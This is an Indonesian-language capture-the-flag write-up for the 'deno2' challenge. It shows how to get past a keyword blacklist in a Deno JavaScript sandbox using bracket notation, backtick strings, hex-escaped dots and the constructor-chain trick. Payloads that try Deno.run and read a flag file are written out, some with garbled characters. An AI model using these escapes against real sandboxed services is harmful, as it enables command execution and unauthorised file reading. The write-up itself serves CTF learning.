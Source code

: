 # DENO2

Alat

- Terminal
- Node
- Sublime text

Untuk menyelesaikan deno2 kita harus mencari tahu cara untuk mem-bypass const BLACK_LIST. Untungnya kita diberikan dua petunjuk yang memberitahu kita bahwa ada cara lain untuk memanggil fungsi/atribut/metode dari objek selain menggunakan titik, yaitu dengan menggunakan metode 

```jsx
object[`function`]
```

Disini kita sudah tahu cara mem-bypass pemanggilan fungsi tapi bagaimana dengan pemanggilan deno?.

Disitulah Deno masuk daftar hitam, dengan sedikit tekad dan pengetahuan yang minim saya bertanya kepada Mr. Google. Setelah berselancar di Google saya menemukan sebuah artikel yang menyatakan bahwa kita dapat memanggil objek dengan "ini" terlebih dahulu, misalnya this.deno.run().

kemudian dengan petunjuk kedua yang diberikan, saya menggunakan teknik fungsi anonim agar lebih mudah (menurut saya). Fungsi anonim bisa dibuat dengan menulis 

```jsx
({})["constructor"]["constructor"]("Code")()
```

() pada akhir code untuk memanggil fungsi anonim.

Dalam tantangan ini, kita tidak bisa menggunakan "" dan '', jadi kita menggantinya dengan (backtick). Untuk payload pertama saya buat seperti ini :
```jsx
({})[construktor][construktor](this[\\De\ + \\no\][\\run\]({cmd: [\\ls\]}) )()
```

code di atask ternyata tidak berhasil, karena saya yakin ini harus berhasil. Saya mencoba kode di deno1 dan berhasil. Hmmm kemudian saya cek file dockernya ternyata deno.run tidak boleh, jadi saya ganti dengan membaca langsung filenya seperti yang saya tulis di deno1 yaitu dengan deno.readfilesync(). kodenya akan seperti ini:

```jsx

({})[constructor][constructor](decoder = new TextDecoder(\\utf-8\);data = this[\\De\+\\no\][\\readFileSync\](\\flag\x2etxt\);return decoder[\\decode\](data);)()
```

catatan:\x2e untuk menggantikan . (dot)

Code di atas dapat berhasil. karena menurut saya jawaban saya terlalu panjang, saya bertanya kepada penulis, yang saya tanyakan seperti ini "apakah ada cara lain untuk mendapatkan flag", dan ternyata ada cara lain yaitu dengan menggunakan

```jsx
[][constructor][constructor](return De+no\\x2ereadTextFileSync(\\flag\x2etxt\))()
```

dan

```jsx
[][constructor][constructor](return fetch(\\file:///ctf/flag\x2etxt\)\\x2ethen((a)=>a\\x2etext()\\x2ethen((b )=>console\\x2elog(b))))()
```

terima kasih kepada mas Dimas yang telah membantu saya.

### Referensi yang mungkin bisa membantu

[# HackTheBox "Business CTF" - discordvm - Node.js Sandbox Escape](https://www.youtube.com/watch?v=pzh6--wIp24&t=534s)

[Escaping nodejs vm](http://Gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)
